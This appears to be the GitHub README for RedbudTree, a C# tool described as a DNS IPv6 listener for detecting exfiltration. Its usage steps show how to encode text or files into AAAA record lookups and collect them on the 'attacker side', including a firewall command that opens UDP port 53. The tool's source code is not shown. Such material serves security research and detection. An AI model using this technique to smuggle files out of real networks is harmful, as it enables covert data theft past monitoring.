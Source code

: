 # RedbudTree
![](https://github.com/DamonMohammadbagher/RedbudTree/blob/master/Pic.jpg)
DNS IPv6 Request Listener (UDP Port 53) for Detecting Exfiltration DATA via IPv6 DNS AAAA Record Requests.

Video (step by step) : https://www.youtube.com/watch?v=9jiry5b-oPo

bsdmag.org PDF Download , PDF File BSD-Magazine issue (2/2018)

For Reading Full Article Please visit this link (Download - Free) : https://bsdmag.org/download/table-level-security-postgresql/

Github PDF Download , PDF File BSD-Magazine issue (2/2018)

For Reading Full Article Please visit this link (Download - Free) : https://github.com/DamonMohammadbagher/Exfiltration-and-Uploading-DATA-by-DNS-Traffic-AAAA-Records

step 1:         
/// for using "Listening Mode" UDP Port 53 should be opened before using this tool.         
/// windows command for opening UDP port 53 is :  
/// netsh advfirewall firewall add rule name="UDP 53" dir=in action=allow protocol=UDP localport=53

Note: step "1" is for attacker side

step 2:         
/// Compiling C# Code.         
/// windows command for this is :  
/// csc.exe /out:RedbudTree.exe  RedbudTree.cs 


step 3:         
/// RedbudTree.exe Help         
/// windows command for this is :  

/// Syntax 1: Creating Exfiltration DATA via IPv6 Address and Nslookup.         
/// Syntax 1: RedbudTree.exe "AAAA" "Text"  
/// Example1: RedbudTree.exe AAAA "this is my test" 

/// Syntax 2: Creating Exfiltration DATA via IPv6 Address and Nslookup by Text Files.  (redbudtree_2.png)        
/// Syntax 2: RedbudTree.exe "AAAA" "FILE" "TextFile.txt"  
/// Example2: RedbudTree.exe AAAA FILE "TextFile.txt" 

/// Syntax 3: RedbudTree with Listening Mode          
/// Syntax 3: RedbudTree.exe  
Note: syntax 3 is ((Dumping DATA via IPv6 Requests , attacker side)) (redbudtree_3.png)


